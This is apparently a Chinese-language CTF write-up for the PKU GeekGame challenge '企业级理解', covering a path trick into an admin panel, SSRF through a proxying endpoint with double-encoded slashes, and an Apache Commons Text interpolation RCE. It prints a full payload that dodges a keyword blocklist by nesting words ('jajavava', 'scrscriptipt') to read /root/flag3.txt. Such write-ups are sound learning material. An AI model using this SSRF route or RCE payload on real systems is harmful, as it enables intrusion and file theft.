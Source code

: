 # 企业级理解

## 解题过程

### 赋能管理后台
一开始真没看出问题，一顿乱试就进去了。一开始甚至没有注意到进去是因为多了个 `/`，，，尝试 query 发现又被弹出来了，对比一下才注意到。

在 `/admin/query/` 的回显中发现了 type 和 value。尝试添加 query param 发现有效，在 `/admin/query/?type=PKU_GeekGame` 下拿到 flag1。

### 盘活业务增长
在 `/admin/source_bak` 下拿到另一部分后端代码，其中从以下片段我们可以得知管理后台其实是个代理：

~~~java
@RequestMapping("/admin/{index}")
public String adminIndex(@PathVariable(name = "index") String index, String auth, QueryBean queryBean) {
    // ...
    Mono str = webClient.post()
                        .uri(index)
                        .header(HttpHeaders.AUTHORIZATION, auth)
                        .body(BodyInserters
                            .fromFormData(
                                "type",
                                queryBean.getType()))
                            .retrieve()
                            .bodyToMono(String.class);
    // ...
}
~~~

我们可以给 uri 传 bonus 的 url 就可以访问到 bonus 了。访问 `/admin/localhost:8080/` 得到回显：Endpoints:/bonus/source_bak。下一个问题是，我们好像没法传一个完整的路径进到 index。

好在程序做了一个奇怪的转义，用 `%252F` 当成 `/` 用就可以了：

~~~java
if (index != null & index.contains("%")) {
    index = URLDecoder.decode(index, "UTF-8");
}
~~~

访问 `/admin/localhost:8080%252Fbonus/` 即可拿到 flag2。

### 打通整个系统

访问 `/admin/localhost:8080%252Fsource_bak/` 即可拿到 bonus 的代码。从这可以看出这又是要注入脚本做 RCE 了：

~~~java
ArrayList<String> unsafeList = new ArrayList<String>(Arrays.asList("java", "js", "script", "exec", "start", "url", "dns", "groovy", "bsh", "eval", "ognl"));
~~~

然后去搜了 CommentsText RCE，是有[漏洞复现](https://cn-sec.com/archives/1372522.html)的。

但是这个题没有外网环境，不能反弹 shell。所以得读出 flag 并返回。然后因为没写过 java，在这个脚本构造卡了蛮久的。

在本地搞了 java 环境，确定可行的脚本为：

~~~java
new java.io.BufferedReader((new java.io.FileReader('/root/flag3.txt')).readLine())
~~~

那个过滤绕起来也非常简单，比如把 `java` 写成 `jajavava` 就行了。最终的 payload 为 `/admin/localhost:8080%252Fbonus?type=CommonsText&value=%24%7Bscrscriptipt%3Ajajavavascrscriptipt%3Anew%20jajavava.io.BufferedReader%28new%20jajavava.io.FileReader%28%27%2Froot%2Fflag3.txt%27%29%29.readLine%28%29%7D/`。其中 value 部分 url decode 为 `${scrscriptipt:jajavavascrscriptipt:new jajavava.io.BufferedReader(new jajavava.io.FileReader('/root/flag3.txt')).readLine()}`
